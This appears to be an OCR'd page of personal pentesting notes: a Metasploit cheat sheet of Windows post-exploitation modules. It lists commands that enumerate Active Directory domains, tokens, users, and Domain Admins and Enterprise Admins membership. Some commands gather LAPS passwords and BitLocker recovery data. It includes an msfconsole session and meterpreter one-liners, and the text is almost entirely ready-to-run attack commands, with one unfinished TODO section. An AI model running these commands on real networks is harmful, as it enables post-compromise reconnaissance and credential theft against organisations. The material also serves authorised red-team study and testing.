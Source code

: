 # Metasploit

## 01 - Modules

### 1.1 - Post

run post/windows/gather/enum_domain

run post/windows/gather/enum_tokens

run post/windows/gather/enum_domain_tokens

run post/windows/gather/enum_ad_managedby_groups

run post/windows/gather/enum_ad_to_wordlist

run post/windows/gather/enum_ad_user_comments

run post/windows/gather/enum_ad_users

run post/windows/gather/credentials/enum_laps

```
msf > use post/windows/gather/enum_domain_group_users

msf post(windows/gather/enum_domain_group_users) > options

Module options (post/windows/gather/enum_domain_group_users):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   GROUP                     yes       Domain Group to enumerate
   SESSION                   yes       The session to run this module on

msf post(windows/gather/enum_domain_group_users) > set group <domain_group>

msf post(windows/gather/enum_domain_group_users) > set session <session_id>

msf post(windows/gather/enum_domain_group_users) > exploit
```

- One liner

```
meterpreter > run post/windows/gather/enum_domain_group_users group="Domain Admins"

meterpreter > run post/windows/gather/enum_domain_group_users group="Enterprise Admins"
```

TODO: Fill this info

- LDAP query

```
meterpreter > run post/windows/gather/enum_ad_groups
```

- Bitlocker

run post/windows/gather/enum_ad_bitlocker